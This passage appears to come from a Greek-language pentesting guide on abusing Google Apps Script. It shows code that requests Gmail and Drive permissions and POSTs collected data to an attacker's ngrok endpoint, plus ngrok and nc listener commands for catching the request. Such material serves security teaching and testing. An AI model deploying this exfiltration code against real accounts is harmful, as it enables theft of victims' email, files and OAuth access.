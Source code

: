 ```javascript
pageToken: pageToken
});

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10);

// To ask for drive permissions
var files = DriveApp.getFiles();
}


function makePostRequest(data) {
var url = 'http://5.tcp.eu.ngrok.io:12027';

var options = {
'method' : 'post',
'contentType': 'application/json',
'payload' : JSON.stringify(data)
};

try {
UrlFetchApp.fetch(url, options);
} catch (e) {
Logger.log("Error making POST request: " + e.toString());
}
}
```
{% endcode %}

Για να καταγράψετε το αίτημα μπορείτε απλά να εκτελέσετε:
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
Permissions requested to execute the App Script:

<figure><img src="../../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>
